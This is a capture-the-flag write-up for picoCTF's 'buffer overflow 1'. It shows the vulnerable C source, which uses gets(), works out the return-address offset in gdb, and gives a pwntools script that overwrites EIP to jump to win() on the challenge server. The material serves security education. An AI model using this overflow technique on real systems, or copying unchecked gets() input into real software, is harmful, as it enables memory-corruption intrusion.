



# buffer overflow 1 [Pwn]

Link : [buffer overflow 1](https://play.picoctf.org/practice/challenge/258?category=6&originalEvent=70&page=1)

Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```


```
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=96273c06a17ba29a34bdefa9be1a15436d5bad81, for GNU/Linux 3.2.0, not stripped
```

The binary is 32 bits.

```C
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

The size of the data entered via *gets(buf)* is not controlled, so you can enter anything.

This can cause a buffer overflow.

It is enough to control the return address to redirect the flow of execution to the *win()* function to display the flag.


In gdb, I placed a breakpoint on the *ret* of *vuln()*



For a test, I send this payload: "A"*(32+4+4+4) + "BBBB"



The EIP is well reached.

It remains to redirect the execution flow to the *win()* function at address *0x080491f6*.

```python
from pwn import *

#sh = process("./vuln")
sh = remote("saturn.picoctf.net",54376)
print(sh.recv().decode())
sh.sendline(b"A"*(32+4+4+4)+p32(0x080491f6))
sh.interactive()
```

Result:


